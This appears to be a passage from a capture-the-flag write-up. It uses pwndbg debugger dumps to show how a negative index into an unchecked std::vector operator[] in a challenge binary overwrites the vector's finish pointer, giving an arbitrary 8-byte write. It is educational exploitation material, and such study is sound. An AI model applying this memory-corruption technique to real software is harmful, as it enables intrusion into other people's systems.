

So:

```
name = 0x405280
vec  = 0x4052a0
```

#### Inspect Vector Layout

Break after `init()`:



```
Breakpoint 2, 0x000000000040147e in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ LAST SIGNAL ]─────────────────────────────────────────────────────────────────────
Breakpoint hit at 0x40147e
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
 RAX  0x418ad0 —▸ 0x418af0 ◂— 0
 RBX  0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
 RCX  0
 RDX  0x4192f0 ◂— 0
 RDI  0x418ad0 —▸ 0x418af0 ◂— 0
 RSI  0
 R8   0x7ffff7a03b20 (main_arena+96) —▸ 0x4192f0 ◂— 0
 R9   0
 R10  1
 R11  2
 R12  1
 R13  0
 R14  0x404d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4012c0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
 RSP  0x7fffffffde40 ◂— 0x2e78786362696c67 ('glibcxx.')
 RIP  0x40147e (main+33) ◂— mov dword ptr [rbp - 0x2c], 0
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
   0x401466 <main+9>     sub    rsp, 0x28                       RSP => 0x7fffffffde40 (0x7fffffffde68 - 0x28)
   0x40146a <main+13>    mov    rax, qword ptr fs:[0x28]        RAX, [0x7ffff7e9b768] => 0x69e57963092a4d00
   0x401473 <main+22>    mov    qword ptr [rbp - 0x18], rax     [0x7fffffffde58] <= 0x69e57963092a4d00
   0x401477 <main+26>    xor    eax, eax                        EAX => 0
   0x401479 <main+28>    call   init()                      <init()>
 
b► 0x40147e <main+33>    mov    dword ptr [rbp - 0x2c], 0       [0x7fffffffde44] <= 0
   0x401485 <main+40>    mov    dword ptr [rbp - 0x28], 0       [0x7fffffffde48] <= 0
   0x40148c <main+47>    mov    dword ptr [rbp - 0x24], 0       [0x7fffffffde4c] <= 0
   0x401493 <main+54>    mov    qword ptr [rbp - 0x20], 0       [0x7fffffffde50] <= 0
   0x40149b <main+62>    call   menu()                      <menu()>
 
   0x4014a0 <main+67>    lea    rax, [rbp - 0x2c]
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde40 ◂— 0x2e78786362696c67 ('glibcxx.')
01:0008│-028 0x7fffffffde48 ◂— 0x6c6f6f705f68652e ('.eh_pool')
02:0010│-020 0x7fffffffde50 —▸ 0x7fffffffdef0 ◂— 0
03:0018│-018 0x7fffffffde58 ◂— 0x9fbe8486dadc4a00
04:0020│-010 0x7fffffffde60 —▸ 0x7ffff7e7aa50 ◂— 2
05:0028│-008 0x7fffffffde68 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
06:0030│ rbp 0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
07:0038│+008 0x7fffffffde78 —▸ 0x7ffff782a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0         0x40147e main+33
   1   0x7ffff782a1ca __libc_start_call_main+122
   2   0x7ffff782a28b __libc_start_main+139
   3         0x401235 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Now inspect vec:
```
pwndbg> continue
Continuing.

Breakpoint 3, 0x000000000040149b in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ LAST SIGNAL ]─────────────────────────────────────────────────────────────────────
Breakpoint hit at 0x40149b
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
 RAX  0x418ad0 —▸ 0x418af0 ◂— 0
 RBX  0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
 RCX  0
 RDX  0x4192f0 ◂— 0
 RDI  0x418ad0 —▸ 0x418af0 ◂— 0
 RSI  0
 R8   0x7ffff7a03b20 (main_arena+96) —▸ 0x4192f0 ◂— 0
 R9   0
 R10  1
 R11  2
 R12  1
 R13  0
 R14  0x404d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4012c0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
 RSP  0x7fffffffde40 ◂— 0x62696c67 /* 'glib' */
*RIP  0x40149b (main+62) ◂— call menu()
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
   0x401479 <main+28>    call   init()                      <init()>
 
b+ 0x40147e <main+33>    mov    dword ptr [rbp - 0x2c], 0       [0x7fffffffde44] <= 0
   0x401485 <main+40>    mov    dword ptr [rbp - 0x28], 0       [0x7fffffffde48] <= 0
   0x40148c <main+47>    mov    dword ptr [rbp - 0x24], 0       [0x7fffffffde4c] <= 0
   0x401493 <main+54>    mov    qword ptr [rbp - 0x20], 0       [0x7fffffffde50] <= 0
b► 0x40149b <main+62>    call   menu()                      <menu()>
        rdi: 0x418ad0 —▸ 0x418af0 ◂— 0
        rsi: 0
        rdx: 0x4192f0 ◂— 0
        rcx: 0
 
   0x4014a0 <main+67>    lea    rax, [rbp - 0x2c]
   0x4014a4 <main+71>    mov    rsi, rax
   0x4014a7 <main+74>    lea    rax, [rip + 0x3cb2]             RAX => 0x405160 (std::cin@GLIBCXX_3.4)
   0x4014ae <main+81>    mov    rdi, rax                        RDI => 0x405160 (std::cin@GLIBCXX_3.4)
   0x4014b1 <main+84>    call   std::basic_istream<char, std::char_traits<char> >::operator>>(int&)@plt <std::basic_istream<char, std::char_traits<char> >::operator>>(int&)@plt>
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde40 ◂— 0x62696c67 /* 'glib' */
01:0008│-028 0x7fffffffde48 ◂— 0
02:0010│-020 0x7fffffffde50 ◂— 0
03:0018│-018 0x7fffffffde58 ◂— 0xc97267ab5f637700
04:0020│-010 0x7fffffffde60 —▸ 0x7ffff7e7aa50 ◂— 2
05:0028│-008 0x7fffffffde68 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
06:0030│ rbp 0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
07:0038│+008 0x7fffffffde78 —▸ 0x7ffff782a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0         0x40149b main+62
   1   0x7ffff782a1ca __libc_start_call_main+122
   2   0x7ffff782a28b __libc_start_main+139
   3         0x401235 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```
pwndbg> x/gx 0x4052a0
0x4052a0 <vec>: 0x0000000000418ad0
pwndbg> set $vecobj = *(unsigned long long*)0x4052a0
pwndbg> p/x $vecobj
$2 = 0x418ad0
pwndbg> x/3gx $vecobj
0x418ad0:       0x0000000000418af0      0x0000000000418af0
0x418ae0:       0x00000000004192f0
pwndbg> set $buf = *(unsigned long long*)$vecobj
pwndbg> p/d ($buf - $vecobj) / 8
$3 = 4
pwndbg> continue
Continuing.
Hi, ram
1. Add new number
2. Swap numbers
3. Exit
> 1
Num: 1234
Done

Breakpoint 3, 0x000000000040149b in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ LAST SIGNAL ]─────────────────────────────────────────────────────────────────────
Breakpoint hit at 0x40149b
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
*RAX  0x405040 (std::cout@GLIBCXX_3.4) —▸ 0x7ffff7e74310 (vtable for std::basic_ostream<char, std::char_traits<char> >+24) —▸ 0x7ffff7d55670 (std::basic_ostream<char, std::char_traits<char> >::~basic_ostream()) ◂— endbr64
 RBX  0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
*RCX  0x7ffff791c5a4 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7e74310 (vtable for std::basic_ostream<char, std::char_traits<char> >+24) —▸ 0x7ffff7d55670 (std::basic_ostream<char, std::char_traits<char> >::~basic_ostream()) ◂— endbr64
*RDI  0x7ffff7a05710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0
*R8   0x7ffff7e79e00 —▸ 0x7ffff7e72a08 (vtable for __gnu_cxx::stdio_sync_filebuf<char, std::char_traits<char> >+16) —▸ 0x7ffff7d280c0 (__gnu_cxx::stdio_sync_filebuf<char, std::char_traits<char> >::~stdio_sync_filebuf()) ◂— endbr64
*R9   0xffffffff
*R10  0
*R11  0x202
 R12  1
 R13  0
 R14  0x404d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4012c0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
 RSP  0x7fffffffde40 ◂— 0x162696c67
 RIP  0x40149b (main+62) ◂— call menu()
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
   0x401479 <main+28>    call   init()                      <init()>
 
b+ 0x40147e <main+33>    mov    dword ptr [rbp - 0x2c], 0
   0x401485 <main+40>    mov    dword ptr [rbp - 0x28], 0
   0x40148c <main+47>    mov    dword ptr [rbp - 0x24], 0
   0x401493 <main+54>    mov    qword ptr [rbp - 0x20], 0
b► 0x40149b <main+62>    call   menu()                      <menu()>
        rdi: 0x7ffff7a05710 (_IO_stdfile_1_lock) ◂— 0
        rsi: 0
        rdx: 0x7ffff7e74310 (vtable for std::basic_ostream<char, std::char_traits<char> >+24) —▸ 0x7ffff7d55670 (std::basic_ostream<char, std::char_traits<char> >::~basic_ostream()) ◂— endbr64
        rcx: 0x7ffff791c5a4 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
 
   0x4014a0 <main+67>    lea    rax, [rbp - 0x2c]
   0x4014a4 <main+71>    mov    rsi, rax
   0x4014a7 <main+74>    lea    rax, [rip + 0x3cb2]           RAX => 0x405160 (std::cin@GLIBCXX_3.4)
   0x4014ae <main+81>    mov    rdi, rax                      RDI => 0x405160 (std::cin@GLIBCXX_3.4)
   0x4014b1 <main+84>    call   std::basic_istream<char, std::char_traits<char> >::operator>>(int&)@plt <std::basic_istream<char, std::char_traits<char> >::operator>>(int&)@plt>
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde40 ◂— 0x162696c67
01:0008│-028 0x7fffffffde48 ◂— 0
02:0010│-020 0x7fffffffde50 ◂— 0x4d2
03:0018│-018 0x7fffffffde58 ◂— 0xc97267ab5f637700
04:0020│-010 0x7fffffffde60 —▸ 0x7ffff7e7aa50 ◂— 2
05:0028│-008 0x7fffffffde68 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
06:0030│ rbp 0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
07:0038│+008 0x7fffffffde78 —▸ 0x7ffff782a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0         0x40149b main+62
   1   0x7ffff782a1ca __libc_start_call_main+122
   2   0x7ffff782a28b __libc_start_main+139
   3         0x401235 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> set $vecobj = *(unsigned long long*)0x4052a0
pwndbg> x/3gx $vecobj
0x418ad0:       0x0000000000418af0      0x0000000000418af8
0x418ae0:       0x00000000004192f0
pwndbg> set $buf = *(unsigned long long*)$vecobj
pwndbg> x/8gx $buf
0x418af0:       0x00000000000004d2      0x0000000000000000
0x418b00:       0x0000000000000000      0x0000000000000000
0x418b10:       0x0000000000000000      0x0000000000000000
0x418b20:       0x0000000000000000      0x0000000000000000
```

#### vec\[-3\] Touches finish

We know:

```
vec[-4] = begin
vec[-3] = finish
vec[-2] = end_of_storage
```

So if the swap feature can write to `vec[-3]`, we can overwrite the vector's `finish` pointer.

That turns this normal operation:

```cpp
vec->push_back(value);
```

into:

```cpp
*(uint64_t *)finish = value;
```

If we control `finish`, we get an **arbitrary 8-byte write**.

This bug exists because `std::vector::operator[]` performs no bounds checking. Out-of-range access is undefined behavior. `std::vector::at()` would perform bounds checking and throw `std::out_of_range`, but the challenge uses `operator[]`.



Swapping `Index 1 = 0` with `Index 2 = -3`:

```
pwndbg> b *0x4015ff
Breakpoint 5 at 0x4015ff
pwndbg> b *0x40161e
Breakpoint 6 at 0x40161e
pwndbg> continue
Continuing.
Hi, ram
1. Add new number
2. Swap numbers
3. Exit
> 2
Index 1: 0
Index 2: -3

Breakpoint 5, 0x00000000004015ff in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ LAST SIGNAL ]─────────────────────────────────────────────────────────────────────
Breakpoint hit at 0x4015ff
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
*RAX  0x418af0 ◂— 0x4d2
*RBX  0x418af8 ◂— 0
*RCX  0xa
*RDX  0
*RDI  0x418ad0 —▸ 0x418af0 ◂— 0x4d2
 RSI  0
*R8   0
*R9   0
*R10  0xffffffff
*R11  0xa
 R12  1
 R13  0
 R14  0x404d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4012c0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
 RSP  0x7fffffffde40 ◂— 0x262696c67
*RIP  0x4015ff (main+418) ◂— mov qword ptr [rax], rbx
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
b► 0x4015ff <main+418>    mov    qword ptr [rax], rbx              [0x418af0] <= 0x418af8 ◂— 0
   0x401602 <main+421>    mov    rbx, qword ptr [rbp - 0x20]       RBX, [0x7fffffffde50] => 0x4d2
   0x401606 <main+425>    mov    rax, qword ptr [rip + 0x3c93]     RAX, [vec] => 0x418ad0 —▸ 0x418af0 ◂— 0x418af8
   0x40160d <main+432>    mov    edx, dword ptr [rbp - 0x24]       EDX, [0x7fffffffde4c] => 0xfffffffd
   0x401610 <main+435>    movsxd rdx, edx                          RDX => 0xfffffffffffffffd
   0x401613 <main+438>    mov    rsi, rdx                          RSI => 0xfffffffffffffffd
   0x401616 <main+441>    mov    rdi, rax                          RDI => 0x418ad0 —▸ 0x418af0 —▸ 0x418af8 ◂— ...
   0x401619 <main+444>    call   std::vector<unsigned long long, std::allocator<unsigned long long> >::operator[](unsigned long) <std::vector<unsigned long long, std::allocator<unsigned long long> >::operator[](unsigned long)>
 
b+ 0x40161e <main+449>    mov    qword ptr [rax], rbx
   0x401621 <main+452>    lea    rax, [rip + 0x1a20]      RAX => 0x403048 ◂— 0x646e4900656e6f44 /* 'Done' */
   0x401628 <main+459>    mov    rsi, rax                 RSI => 0x403048 ◂— 0x646e4900656e6f44 /* 'Done' */
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde40 ◂— 0x262696c67
01:0008│-028 0x7fffffffde48 ◂— 0xfffffffd00000000
02:0010│-020 0x7fffffffde50 ◂— 0x4d2
03:0018│-018 0x7fffffffde58 ◂— 0xc97267ab5f637700
04:0020│-010 0x7fffffffde60 —▸ 0x7ffff7e7aa50 ◂— 2
05:0028│-008 0x7fffffffde68 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
06:0030│ rbp 0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
07:0038│+008 0x7fffffffde78 —▸ 0x7ffff782a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0         0x4015ff main+418
   1   0x7ffff782a1ca __libc_start_call_main+122
   2   0x7ffff782a28b __libc_start_main+139
   3         0x401235 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now the program continues to the menu. Input:
2
0
-3
Meaning:
Swap Index 1 = 0
Swap Index 2 = -3
This asks the program to swap:
vec[0] with vec[-3]
Since vec[-3] is finish, this swaps the first element with the finish pointer.

```
pwndbg> continue
Continuing.
Hi, ram
1. Add new number
2. Swap numbers
3. Exit
> 2
Index 1: 0
Index 2: -3

Breakpoint 5, 0x00000000004015ff in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ LAST SIGNAL ]─────────────────────────────────────────────────────────────────────
Breakpoint hit at 0x4015ff
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
*RAX  0x418af0 ◂— 0x4d2
*RBX  0x418af8 ◂— 0
*RCX  0xa
*RDX  0
*RDI  0x418ad0 —▸ 0x418af0 ◂— 0x4d2
 RSI  0
*R8   0
*R9   0
*R10  0xffffffff
*R11  0xa
 R12  1
 R13  0
 R14  0x404d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4012c0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
 RSP  0x7fffffffde40 ◂— 0x262696c67
*RIP  0x4015ff (main+418) ◂— mov qword ptr [rax], rbx
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
b► 0x4015ff <main+418>    mov    qword ptr [rax], rbx              [0x418af0] <= 0x418af8 ◂— 0
   0x401602 <main+421>    mov    rbx, qword ptr [rbp - 0x20]       RBX, [0x7fffffffde50] => 0x4d2
   0x401606 <main+425>    mov    rax, qword ptr [rip + 0x3c93]     RAX, [vec] => 0x418ad0 —▸ 0x418af0 ◂— 0x418af8
   0x40160d <main+432>    mov    edx, dword ptr [rbp - 0x24]       EDX, [0x7fffffffde4c] => 0xfffffffd
   0x401610 <main+435>    movsxd rdx, edx                          RDX => 0xfffffffffffffffd
   0x401613 <main+438>    mov    rsi, rdx                          RSI => 0xfffffffffffffffd
   0x401616 <main+441>    mov    rdi, rax                          RDI => 0x418ad0 —▸ 0x418af0 —▸ 0x418af8 ◂— ...
   0x401619 <main+444>    call   std::vector<unsigned long long, std::allocator<unsigned long long> >::operator[](unsigned long) <std::vector<unsigned long long, std::allocator<unsigned long long> >::operator[](unsigned long)>
 
b+ 0x40161e <main+449>    mov    qword ptr [rax], rbx
   0x401621 <main+452>    lea    rax, [rip + 0x1a20]      RAX => 0x403048 ◂— 0x646e4900656e6f44 /* 'Done' */
   0x401628 <main+459>    mov    rsi, rax                 RSI => 0x403048 ◂— 0x646e4900656e6f44 /* 'Done' */
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde40 ◂— 0x262696c67
01:0008│-028 0x7fffffffde48 ◂— 0xfffffffd00000000
02:0010│-020 0x7fffffffde50 ◂— 0x4d2
03:0018│-018 0x7fffffffde58 ◂— 0xc97267ab5f637700
04:0020│-010 0x7fffffffde60 —▸ 0x7ffff7e7aa50 ◂— 2
05:0028│-008 0x7fffffffde68 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
06:0030│ rbp 0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
07:0038│+008 0x7fffffffde78 —▸ 0x7ffff782a1ca (__libc_start_call_main+122) ◂— mov edi, eax
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────────
 ► 0         0x4015ff main+418
   1   0x7ffff782a1ca __libc_start_call_main+122
   2   0x7ffff782a28b __libc_start_main+139
   3         0x401235 _start+37
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> b *0x4015ff
Note: breakpoint 5 also set at pc 0x4015ff.
Breakpoint 7 at 0x4015ff
pwndbg> p/x $rax
$4 = 0x418af0
pwndbg> p/x $rbx
$5 = 0x418af8
pwndbg> x/gx $rax
0x418af0:       0x00000000000004d2
pwndbg> set $vecobj = *(unsigned long long*)0x4052a0
pwndbg> x/3gx $vecobj
0x418ad0:       0x0000000000418af0      0x0000000000418af8
0x418ae0:       0x00000000004192f0
pwndbg> continue
Continuing.

Breakpoint 6, 0x000000000040161e in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────────────────────────[ LAST SIGNAL ]─────────────────────────────────────────────────────────────────────
Breakpoint hit at 0x40161e
─────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
*RAX  0x418ad8 —▸ 0x418af8 ◂— 0
*RBX  0x4d2
 RCX  0xa
*RDX  0xffffffffffffffe8
 RDI  0x418ad0 —▸ 0x418af0 —▸ 0x418af8 ◂— 0
*RSI  0xfffffffffffffffd
 R8   0
 R9   0
 R10  0xffffffff
 R11  0xa
 R12  1
 R13  0
 R14  0x404d48 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4012c0 (__do_global_dtors_aux) ◂— endbr64
 R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0
 RBP  0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
 RSP  0x7fffffffde40 ◂— 0x262696c67
*RIP  0x40161e (main+449) ◂— mov qword ptr [rax], rbx
──────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────
   0x40160d <main+432>    mov    edx, dword ptr [rbp - 0x24]       EDX, [0x7fffffffde4c] => 0xfffffffd
   0x401610 <main+435>    movsxd rdx, edx                          RDX => 0xfffffffffffffffd
   0x401613 <main+438>    mov    rsi, rdx                          RSI => 0xfffffffffffffffd
   0x401616 <main+441>    mov    rdi, rax                          RDI => 0x418ad0 —▸ 0x418af0 —▸ 0x418af8 ◂— ...
   0x401619 <main+444>    call   std::vector<unsigned long long, std::allocator<unsigned long long> >::operator[](unsigned long) <std::vector<unsigned long long, std::allocator<unsigned long long> >::operator[](unsigned long)>
 
b► 0x40161e <main+449>    mov    qword ptr [rax], rbx     [0x418ad8] <= 0x4d2
   0x401621 <main+452>    lea    rax, [rip + 0x1a20]      RAX => 0x403048 ◂— 0x646e4900656e6f44 /* 'Done' */
   0x401628 <main+459>    mov    rsi, rax                 RSI => 0x403048 ◂— 0x646e4900656e6f44 /* 'Done' */
   0x40162b <main+462>    lea    rax, [rip + 0x3a0e]      RAX => 0x405040 (std::cout@GLIBCXX_3.4) —▸ 0x7ffff7e74310 (vtable for std::basic_ostream<char, std::char_traits<char> >+24) —▸ 0x7ffff7d55670 (std::basic_ostream<char, std::char_traits<char> >::~basic_ostream()) ◂— ...
   0x401632 <main+469>    mov    rdi, rax                 RDI => 0x405040 (std::cout@GLIBCXX_3.4) —▸ 0x7ffff7e74310 (vtable for std::basic_ostream<char, std::char_traits<char> >+24) —▸ 0x7ffff7d55670 (std::basic_ostream<char, std::char_traits<char> >::~basic_ostream()) ◂— ...
   0x401635 <main+472>    call   std::basic_ostream<char, std::char_traits<char> >& std::operator<< <std::char_traits<char> >(std::basic_ostream<char, std::char_traits<char> >&, char const*)@plt <std::basic_ostream<char, std::char_traits<char> >& std::operator<< <std::char_traits<char> >(std::basic_ostream<char, std::char_traits<char> >&, char const*)@plt>
───────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde40 ◂— 0x262696c67
01:0008│-028 0x7fffffffde48 ◂— 0xfffffffd00000000
02:0010│-020 0x7fffffffde50 ◂— 0x4d2
03:0018│-018 0x7fffffffde58 ◂— 0xc97267ab5f637700
04:0020│-010 0x7fffffffde60 —▸ 0x7ffff7e7aa50 ◂— 2
05:0028│-008 0x7fffffffde68 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe227 ◂— '/mnt/c/Users/obscy/Downloads/cbd/cbc_plus_plus_1/cbc_plus_plus_1'
06:0030│ rbp 0x7fffffffde70 —▸ 0x7fffffffdf10 —▸ 0x7fffffffdf70 ◂— 0
